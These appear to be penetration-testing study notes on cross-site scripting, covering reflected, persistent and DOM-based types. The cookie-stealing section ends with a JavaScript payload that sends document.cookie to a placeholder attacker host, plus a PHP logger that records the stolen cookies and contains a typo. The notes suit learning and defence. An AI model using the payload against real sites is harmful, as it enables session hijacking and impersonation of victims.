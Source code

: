  Actors of a XSS attack:

| Vulnerable Website                            | User/Visitor (Victim)                                                                                                                | Penetration Tester                                                                       |
| :-------------------------------------------- | :----------------------------------------------------------------------------------------------------------------------------------- | :--------------------------------------------------------------------------------------- |
| Inputs should always be validated server side | Code executed/rendered by the browser of the visiting users                                                                          | Making their browsers load malicous content                                              |
| Never ever trust user input                   | XSS vulnerabilities have low priority for developers, as it can be really hard for a victim to realize that an attack is in progress | Performing operations on their behalf, like buying a product or changing a password      |
|                                               |                                                                                                                                      | Stealing the session cookies, thus being able to impersonate them on the vulnerable site |

- Reflection Point: When a search parameter is submitted through a form and gets displayed on the output in an XSS attack
- After finding a reflection point, you have to understand if you can inject HTML code and see if it somehow gets to the output of the page
- Test XSS: `<script>alert('XSS')</script>`

### XSS Types

**Reflected**

- When the malicious payload is carried inside the request that browser of the victim sends to the vulnerable website
- When users click on the link , the users trigger the attack
- `http://victim.site/search.php?find=<payload>`
- Called 'reflected' because an input field of the HTTP request sent by the browser gets immediately reflected to the output page
- Google Chrome has a reflected XSS filter built in to avoid this attack, but only trivial ones

**Persistent**

- Occur when the payload is sent to the vulnerable web server and then stored.
- When a web page of the vulnerable website pulls the stored malicious code and puts it within the HTML output, it will deliver the XSS payload
- The malicious code gets delivered each and every time a web browser hits the "injected" web page
- A single attack can exploit multiple web applications
- The most common vector for persistent attacks are HTML forms that submit content to the web server and then display that content back to the users
- Element such as comments, user profiles, and forum posts are potential vector for XSS attacks

**DOM Based**

Cookie Stealing via XSS
- When `HttpOnly` flag is disabled, cookies can be stolen
- `<script>alert(document.cookie)</script>`
- With the following code, you can send cookies content to an attacker-controlled site:

```javascript
<script>
  var i = new Image();
  i.src = "http://attacker.site/log.php?q="+escape(document.cookie);
</script>
```

```php
<?php
$filename="/tmp/log.txt";
$fp=fopen($filename, 'a');
$cookie=$_GET['q'];
fwrite($fp, $cookie);
flocse($fp);
?>
```
